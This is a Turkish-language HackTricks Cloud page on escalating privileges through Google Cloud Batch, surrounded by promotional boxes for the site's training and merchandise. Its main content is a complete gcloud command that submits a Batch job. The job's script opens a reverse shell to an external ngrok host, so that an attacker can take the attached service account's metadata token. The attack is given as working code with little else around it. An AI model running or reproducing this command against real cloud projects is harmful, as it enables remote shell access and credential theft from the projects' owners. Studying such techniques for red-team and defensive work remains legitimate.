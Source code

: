 # GCP - Toplu İzin Yükseltme

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) ile sıfırdan kahraman olmaya kadar AWS hackleme öğrenin</strong>!</summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın!
* [**Resmi PEASS & HackTricks ürünleri**]'ni edinin
* [**The PEASS Family**]'yi keşfedin, özel [**NFT'ler**] koleksiyonumuzu
* 💬 [**Discord grubuna**] katılın veya [**telegram grubuna**] veya beni **Twitter** 🐦 [**@carlospolopm**]'de **takip edin**.
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**] ve [**HackTricks Cloud**] github depolarına katkıda bulunun.

</details>

## Batch

Temel bilgiler:

{% content-ref url="../gcp-hizmetleri/gcp-batch-enum.md" %}
[gcp-batch-enum.md](../gcp-hizmetleri/gcp-batch-enum.md)
{% endcontent-ref %}

### `batch.jobs.create`, `iam.serviceAccounts.actAs`

Bir toplu iş oluşturmak, ters kabuk almak ve SA'nın (varsayılan olarak hesaplama SA) meta veri jetonunu dışa aktarmak mümkündür.
```bash
gcloud beta batch jobs submit job-lxo3b2ub --location us-east1 --config - <<EOD
{
"name": "projects/gcp-labs-35jfenjy/locations/us-central1/jobs/job-lxo3b2ub",
"taskGroups": [
{
"taskCount": "1",
"parallelism": "1",
"taskSpec": {
"computeResource": {
"cpuMilli": "1000",
"memoryMib": "512"
},
"runnables": [
{
"script": {
"text": "/bin/bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/10396 0>&1'\n"
}
}
],
"volumes": []
}
}
],
"allocationPolicy": {
"instances": [
{
"policy": {
"provisioningModel": "STANDARD",
"machineType": "e2-micro"
}
}
]
},
"logsPolicy": {
"destination": "CLOUD_LOGGING"
}
}
EOD
```
<details>

<summary><strong>Sıfırdan kahraman olmaya kadar AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na (https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**]'yi (https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**]'i (https://opensea.io/collection/the-peass-family) içeren koleksiyonumuz
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya beni **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
